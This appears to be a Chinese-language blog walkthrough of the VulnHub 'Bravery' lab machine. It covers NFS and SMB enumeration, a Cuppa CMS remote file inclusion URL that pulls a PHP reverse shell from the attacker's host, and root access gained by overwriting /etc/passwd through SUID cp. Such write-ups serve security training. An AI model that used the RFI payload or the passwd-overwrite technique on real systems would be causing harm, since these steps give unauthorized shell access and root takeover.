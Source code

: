 ```yaml
---
layout: post
title:  "Bravery"
description: walkthrough
category: vulnhub
---
```

# Bravery



![image-20200611023042725]({{ site.url }}/assets/Bravery.assets/image-20200611023042725.png)



![image-20200611023445556]({{ site.url }}/assets/Bravery.assets/image-20200611023445556.png)



![image-20200611023523893]({{ site.url }}/assets/Bravery.assets/image-20200611023523893.png)



![image-20200611030502540]({{ site.url }}/assets/Bravery.assets/image-20200611030502540.png)



![image-20200611030409992]({{ site.url }}/assets/Bravery.assets/image-20200611030409992.png)

```bash
mkdir nfs
sudo mount -t nfs 192.168.43.175:/var/nfsshare nfs
```

![image-20200611032610166]({{ site.url }}/assets/Bravery.assets/image-20200611032610166.png)

![image-20200611032653581]({{ site.url }}/assets/Bravery.assets/image-20200611032653581.png)

```bash
qwertyuioplkjhgfdsazxcvbnm
```

---

smb

```bash
enum4linux 192.168.43.175
```

![image-20200611032941272]({{ site.url }}/assets/Bravery.assets/image-20200611032941272.png)



![image-20200611032902030]({{ site.url }}/assets/Bravery.assets/image-20200611032902030.png)

```bash
smbclient --no-pass //192.168.43.175/anonymous
```

![image-20200611033137230]({{ site.url }}/assets/Bravery.assets/image-20200611033137230.png)

anonymous 可以匿名连接但是没什么有价值的东西。

secured 不可以匿名连接，使用-u实验一下已知的用户名，已经发现的可能是密码的字符串

```bash
smbclient //192.168.43.175/ -U david
```

![image-20200611034208068]({{ site.url }}/assets/Bravery.assets/image-20200611034208068.png)

![image-20200611034430762]({{ site.url }}/assets/Bravery.assets/image-20200611034430762.png)

![image-20200611034718681]({{ site.url }}/assets/Bravery.assets/image-20200611034718681.png)

逐个浏览

![image-20200611041235178]({{ site.url }}/assets/Bravery.assets/image-20200611041235178.png)



![image-20200611041308125]({{ site.url }}/assets/Bravery.assets/image-20200611041308125.png)



cuppa cms



![image-20200611041608266]({{ site.url }}/assets/Bravery.assets/image-20200611041608266.png)



很多漏洞。选最简单的，远程文件包含

![image-20200611041708993]({{ site.url }}/assets/Bravery.assets/image-20200611041708993.png)

拉shell，改文件名后缀为.txt

```bash
http://192.168.1.112/genevieve/cuppaCMS/alerts/alertConfigField.php?urlConfig=http://192.168.1.108:8080/php-reverse-shell.txt
```

![image-20200611080504082]({{ site.url }}/assets/Bravery.assets/image-20200611080504082.png)

基础枚举后发现cp 拥有SUID

![image-20200611084548532]({{ site.url }}/assets/Bravery.assets/image-20200611084548532.png)



![image-20200611084833422]({{ site.url }}/assets/Bravery.assets/image-20200611084833422.png)



先复制passwd到本地生成，复制root的信息到最后一行，

![image-20200611085117882]({{ site.url }}/assets/Bravery.assets/image-20200611085117882.png)

利用openssl生成新用户evil的hash

![image-20200611085830450]({{ site.url }}/assets/Bravery.assets/image-20200611085830450.png)

替换掉对应的用户名位和密码位

![image-20200611085903502]({{ site.url }}/assets/Bravery.assets/image-20200611085903502.png)

上传到可写目录tmp

![image-20200611090145720]({{ site.url }}/assets/Bravery.assets/image-20200611090145720.png)

利用cp替换

![image-20200611090259930]({{ site.url }}/assets/Bravery.assets/image-20200611090259930.png)

su evil

![image-20200611090403674]({{ site.url }}/assets/Bravery.assets/image-20200611090403674.png)

